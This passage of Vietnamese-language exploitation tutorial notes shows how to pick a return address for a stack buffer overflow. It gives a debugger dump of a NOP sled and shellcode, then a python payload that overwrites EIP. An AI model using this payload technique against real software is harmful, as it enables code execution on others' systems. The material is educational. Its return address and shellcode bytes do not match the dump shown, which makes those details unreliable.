

# Identification of the Return Address
---
Sau khi kiểm tra chúng ta vẫn kiểm soát EIP bằng shellcode của mình. Bây giờ chúng tôi cần một địa chỉ bộ nhớ nơi đặt NOP của chúng tôi để yêu cầu EIP chuyển đến địa chỉ đó. Địa chỉ bộ nhớ này không được chứa bất kỳ ký tự xấu nào mà chúng tôi đã tìm thấy trước đó.

```shell
0xffffd0b4:     0x55    0x55    0x55    0x55    0x55    0x55    0x55    0x55
0xffffd0bc:     0x55    0x55    0x55    0x55    0x90    0x90    0x90    0x90
                           end of "\x55"-->|    |<--- start of "\x90" NOPs
0xffffd0c4:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xffffd0cc:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xffffd0d4:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xffffd0dc:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xffffd0e4:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xffffd0ec:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xffffd0f4:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xffffd0fc:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xffffd104:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xffffd10c:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xffffd114:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xffffd11c:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xffffd124:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xffffd12c:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xffffd134:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xffffd13c:     0xd9    0xc8    0xba    0xe2    0x7a    0x2a    0xc8    0xd9
                |<--- start ShellCode
0xffffd144:     0x74    0x24    0xf4    0x5b    0x33    0xc9    0xb1    0x12
```

Ở đây, bây giờ chúng ta phải chọn một địa chỉ mà chúng ta giới thiệu EIP đến, địa chỉ này sẽ đọc và thực thi hết byte này đến byte khác bắt đầu từ địa chỉ này. Trong ví dụ này, chúng tôi lấy địa chỉ 0xffffd64c. Minh họa thì nó trông như thế này:



**Attck**
```shell
   Buffer = "\x55" * (1040 - 100 - 95 - 4) = 841
     NOPs = "\x90" * 100
Shellcode = "\xda\xca\xba\xe4\x11\xd4...<SNIP>...\x5a\x22\xa2"
      EIP = "\x4c\xd6\xff\xff"

---

run $(python -c 'print "\x55" * (1040 - 100 - 95 - 4) + "\x90" * 100 + "\xda\xca\xba...<SNIP>...\x5a\x22\xa2" + "\x4c\xd6\xff\xff"')
```


